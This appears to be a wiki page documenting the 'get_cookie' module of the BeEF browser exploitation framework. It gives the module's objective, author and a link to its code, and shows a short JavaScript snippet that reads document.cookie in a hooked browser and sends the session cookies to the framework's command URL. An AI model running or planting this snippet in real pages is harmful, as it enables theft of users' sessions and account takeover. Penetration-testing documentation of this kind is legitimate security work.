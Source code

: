 ## Summary
* **Objective**: This module will retrieve the session cookie from the current page.
* **Date**: ???
* **Authors**: bcoles
* **Browsers**: All
* [[Code|https://github.com/beefproject/beef/tree/master/modules/browser/hooked_domain/get_cookie]]

## Internal Working

This module just gather the cookies for this page using the document.cookie function :

```javascript
beef.execute(function() {
    beef.net.send("<%= @command_url %>", <%= @command_id %>, 'cookie='+document.cookie);
});
```

## Feedback